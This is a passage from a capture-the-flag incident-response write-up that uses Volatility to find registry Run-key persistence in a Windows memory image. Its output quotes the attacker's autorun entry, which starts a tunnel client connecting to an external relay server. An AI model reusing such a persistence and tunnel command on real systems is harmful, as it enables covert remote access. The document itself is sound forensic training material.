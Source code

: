 <h5>Flag: ligolo</h5>

### AP-6
<h5>The actor has worked out a way to maintain persistence even after reboot. What is the key name of this persistence entry? Flag Format: Name</h5>
There are many ways for an actor to maintain <a target="_blank" href="https://attack.mitre.org/tactics/TA0003/">persistence</a> after a reboot, some of the more obvious ones are in registry keys - T1547.001: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder. From this site we can see where to start looking, so ill focus on this key "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run".

With volatility run the following command:
```
.local/bin/vol -f "/mnt/f/ACSC/ACSC_IR_Challenge_2021/artefacts/workstation1.alien.local-memory/memory.raw" hivelist
```
Which will give the output and we can get the offset of the SOFTWARE hive.
```
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Offset  FileFullPath    File output

0xd40ca4810000          Disabled
0xd40ca484c000  \REGISTRY\MACHINE\SYSTEM        Disabled
0xd40ca48d8000  \REGISTRY\MACHINE\HARDWARE      Disabled
0xd40ca7037000  \Device\HarddiskVolume1\Boot\BCD        Disabled
0xd40ca703d000  \SystemRoot\System32\Config\SOFTWARE    Disabled
0xd40ca8269000  \SystemRoot\System32\Config\DEFAULT     Disabled
0xd40ca8341000  \SystemRoot\System32\Config\SECURITY    Disabled
0xd40ca8413000  \SystemRoot\System32\Config\SAM Disabled
0xd40ca845b000  \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT        Disabled
0xd40ca85c3000  \SystemRoot\System32\Config\BBI Disabled
0xd40ca8621000  \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT  Disabled
0xd40ca9bef000  \??\C:\Users\dadmin\ntuser.dat  Disabled
0xd40ca9ea9000  \??\C:\Users\dadmin\AppData\Local\Microsoft\Windows\UsrClass.dat        Disabled
0xd40ca9e03000  \??\C:\ProgramData\Microsoft\Windows\AppRepository\Packages\Microsoft.Windows.ShellExperienceHost_10.0.17763.1_neutral_neutral_cw5n1h2txyewy\ActivationStore.dat        Disabled
0xd40caaaac000  \??\C:\Users\dadmin\AppData\Local\Packages\Microsoft.Windows.ShellExperienceHost_cw5n1h2txyewy\Settings\settings.dat    Disabled
0xd40caab55000  \??\C:\ProgramData\Microsoft\Windows\AppRepository\Packages\Microsoft.Windows.Cortana_1.11.6.17763_neutral_neutral_cw5n1h2txyewy\ActivationStore.dat    Disabled
0xd40caab52000  \??\C:\Users\dadmin\AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\Settings\settings.dat        Disabled
0xd40caeea4000  \??\C:\Users\admin\ntuser.dat   Disabled
0xd40cae6f5000  \??\C:\Users\admin\AppData\Local\Microsoft\Windows\UsrClass.dat Disabled
0xd40cae3f7000  \SystemRoot\System32\config\DRIVERS     Disabled
```
So our next volatility command looks like:
```
.local/bin/vol -f "/mnt/f/ACSC/ACSC_IR_Challenge_2021/artefacts/workstation1.alien.local-memory/memory.raw" printkey --offset 0xd40ca703d000 --key "Microsoft\Windows\CurrentVersion\Run"
```
with the following output:
```
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Last Write Time Hive Offset     Type    Key     Name    Data    Volatile

2021-04-06 01:01:27.000000      0xd40ca703d000  REG_EXPAND_SZ   \SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows\CurrentVersion\Run       SecurityHealth  "%windir%\system32\SecurityHealthSystray.exe"   False
2021-04-06 01:01:27.000000      0xd40ca703d000  REG_SZ  \SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows\CurrentVersion\Run       StartVPN        "C:\Users\Public\PSclient.exe -autorestart -relayserver 13.54.35.87:5555"        False
```
